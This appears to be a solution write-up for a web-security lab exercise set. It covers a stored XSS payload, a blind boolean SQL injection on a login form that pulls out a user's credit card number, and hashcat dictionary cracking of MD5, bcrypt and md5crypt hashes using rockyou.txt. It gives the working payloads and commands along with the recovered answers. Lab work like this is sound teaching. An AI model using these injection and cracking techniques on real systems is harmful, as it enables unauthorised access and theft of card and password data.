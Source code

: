  
### Exercise 1: XSS

There's XSS on comments. Note that only your last comment is shown and you restore the initial state by logging out. Could you exploit XSS and inject an alert to be shown when some of the "close the comment" button is pressed? To be more precise, you have to post a comment so that the page you get back has the modified behavior (and you can verify it by pressing the injected button to trigger the alert). The alert must show the message **Venom is a good boy!**.

```html
<script>
const closeButtons = document.getElementsByClassName('btn-close')
for (let i = 0; i < closeButtons.length; i++) {
closeButtons[i].onclick = function() { alert('Venom is a good boy!') }; 
}
</script>
```


### Exercise 2: python script

We can buy the decryption key for a cheap price. They also offer gift cards. We already charged a small amount of credit. Obtain that key for us!
You can always delete cookies and reload the page to restore the initial state. Provide a script.

##### Script simulation_decrypt_key.py in Lab folder


### Exercise 3: SQL injection

The following SQL injection statement: 

```sql
sql = f"select * from eshop_customer where username = '{username}' and password = '{password}'"
```

is used.
The session is authenticated if the above query returns a single user.
Steal the credit card number of brucewayne. Credit cards are stored in column *credit_card*.

1. Send a fuzzed request with the following body to find out the credit_card length:

```http
username=brucewayne' and length(credit_card) = 16 --&password=
```

2. Send a double fuzzed request with the following body to find out the single characters of credit_card:

```http
username=brucewayne' and substr(credit_card, 1, 1) = '1' --&password=
```

	substr(string, start, length) 
	
where start must be 1-16 (extremes included).

Fuzz on the start of the substr and the character (0-9).

Credit_card: 7114 0996 5635 3972


### Exercise 4: hashing

Use the rockyou.txt file to bruteforce the following password hashes (1 point each):
- c51e7a23a59ef8d76892f207b517eaf0 -> MD5 -> millie
- \$2a\$09$aJUc7jD71mV.KbWgyO2zweLWyUYoxHb8G/LsGXFgjfx9ynqusxUtO -> bcrypt -> leonardo
- \$1$NOcJM.4s\$kIKttixk75d7wgMqDjyYK. -> md5crypt -> COD{babylove}

The first and the second passwords are among the first 1000 lines of rockyou.txt. The third password is also among the first 1000 lines of rockyou.txt, but it was modified to have the format *COD{original-password}*.


```bash
hashcat -m 0 -a 0 hash.txt wordlist.txt
```

means: 
- -m 0: hash type (0 stands for MD5)
- -a 0: attack mode (0 stands for dictionary)
- *hash.txt*: text file with the hash to decrypt 

```bash
head -n 1000 rockyou.txt > rockyou_top1000.txt
```

To take the first 1000 lines of rockyou.txt.

##### First hash

Use https://crackstation.net/ or with hashcat:

```bash
hashcat -m 0 -a 0 hash.txt rockyou_top1000.txt 
```

##### Second hash

```bash
hashid '$2a$09$aJUc7jD71mV.KbWgyO2zweLWyUYoxHb8G/LsGXFgjfx9ynqusxUtO'
```

to find the hashing algorithm. Otherwise, use:

```bash
hashcat --help less | grep \$2
```

Then decrypt with:

```bash
hashcat -m 3200 -a 0 hash.txt rockyou_top1000.txt 
```

If it doesn't show the solution, add `--show` to the command.


##### Third hash

```bash
sed 's/^/COD{/' rockyou_top1000.txt | sed 's/$/}/' > modified_rockyou_1000.txt
```

to format the first 100 entries of rockyou.txt as *COD{original-password}*.

Then use the following command to find out the hashing algorithm:

```bash
hashcat --help less | grep \$1
```

Decrypt the password:

```bash
hashcat -m 500 -a 0 hash.txt modified_rockyou_1000.txt 
```